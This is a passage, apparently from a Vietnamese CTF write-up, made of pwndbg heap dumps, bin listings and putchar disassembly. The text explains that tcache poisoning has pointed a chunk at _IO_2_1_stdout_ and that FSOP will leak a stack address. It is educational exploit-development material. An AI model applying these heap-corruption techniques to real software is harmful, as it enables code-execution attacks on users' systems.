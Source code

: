 ```cs
0x5558b5d9cb30  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb40  0x0000000000000000      0x00000000000000e1      ................         <-- unsortedbin[all][0]
0x5558b5d9cb50  0x00007f6eb4305ce0      0x00007f6eb4305ce0      .\0.n....\0.n...
0x5558b5d9cb60  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb70  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb80  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb90  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cba0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbb0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbc0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbd0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbe0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbf0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cc00  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cc10  0x0000000000000000      0x0000000000000000      ................
```

- lúc này ta thấy ta đã overwrite thành công ```fd``` trong tcache và nó trỏ đến ```stdout``` , ta sẽ sử dụng ```FSOP``` để leak địa chỉ stack 

```cs
pwndbg> bins
tcachebins
0x110 [  7]: 0x5558b5d9cb20 —▸ 0x7f6eb4306780 (_IO_2_1_stdout_) ◂— 0x70d466b81
fastbins
empty
unsortedbin
all: 0x5558b5d9cb40 —▸ 0x7f6eb4305ce0 ◂— 0x5558b5d9cb40
smallbins
empty
largebins
empty
```

- ta thấy được sau khi các hàm được gọi , nó sẽ sử dụng ```putchar``` : 

```cs
 0x7f6eb416ea62 <putchar+98>     mov    rdx, qword ptr [rdi + 0x28]     RDX, [_IO_2_1_stdout_+40] => 0x7f6eb430d208 ◂— 0
   0x7f6eb416ea66 <putchar+102>    movzx  eax, bpl                        EAX => 0xa
   0x7f6eb416ea6a <putchar+106>    cmp    rdx, qword ptr [rdi + 0x30]     0x7f6eb430d208 - 0x7f6eb430d208     EFLAGS => 0x246 [ cf PF af ZF sf IF df of ]
   0x7f6eb416ea6e <putchar+110>    jb     putchar+161                 <putchar+161>

   0x7f6eb416ea70 <putchar+112>    mov    esi, eax                        ESI => 0xa
 ► 0x7f6eb416ea72 <putchar+114>    call   __overflow                  <__overflow>
        arg0: 0x7f6eb4306780 (_IO_2_1_stdout_) ◂— 0xfbad1800
        arg1: 0xa

   0x7f6eb416ea77 <putchar+119>    test   dword ptr [rbx], 0x8000
   0x7f6eb416ea7d <putchar+125>    je     putchar+180                 <putchar+180>

   0x7f6eb416ea7f <putchar+127>    add    rsp, 0x18
   0x7f6eb416ea83 <putchar+131>    pop    rbx
   0x7f6eb416ea84 <putchar+132>    pop    rbp
```
